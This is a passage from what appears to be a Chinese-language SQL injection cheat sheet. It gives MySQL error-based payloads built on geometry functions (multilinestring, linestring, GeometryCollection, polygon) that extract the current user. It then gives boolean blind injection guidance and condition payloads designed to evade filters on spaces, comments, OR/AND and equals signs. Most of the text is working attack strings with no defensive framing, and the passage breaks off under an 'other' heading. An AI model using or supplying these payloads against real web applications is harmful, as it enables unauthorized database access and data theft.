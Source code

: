 **`?id=1 or multilinestring((select * from(select * from(select user())a)b))%23`**

**`linestring()`**

**`?id=1 or LINESTRING((select * from(select * from(select user())a)b))%23`**

**`GeometryCollection()`**

**`?id=1 or GeometryCollection((select * from(select * from(select user())a)b))%23`**

**`polygon()`**

**`?id=1 or polygon((select * from(select * from(select user())a)b))%23`**

#### Bool盲注

**在许多情况下，通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化**

- **正确/错误的语句使得页面有适度的变化，可用尝试使用布尔注入**
- **正确语句返回正常页面，错误的语句返回通用错误页面，可以尝试使用布尔注入**
- **提交错误语句，不影响页面的正常输出，建议尝试使用延时注入**

**几种简单的判断语句，在真实利用中需要根据情况而变化：**

- **CASE**
- **IF()**
- **IFNULL()**
- **NULLIF()**

**盲注的时候一定要注意，MySQL 4 之后大小写不敏感，可使用binary()函数使大小写敏感**

**构造bool条件**

> **正常情况**

**`'or bool#`**

**`true' and bool#`**

> **不使用空格、注释**

**`'or(bool)='1`**

**`true'and(bool)='1`**

> **不使用or、and、注释**

**`'^!(bool)='1`**

**`'=(bool)='`**

**`'||(bool)='1`**

**`true'%26%26(bool)='1`**

**`'=if((bool),1,0)='0`**

> **不使用等号、空格、注释**

**`'or(bool)<>'0`**

**`'or((bool)in(1))or'0`**

> **其他**
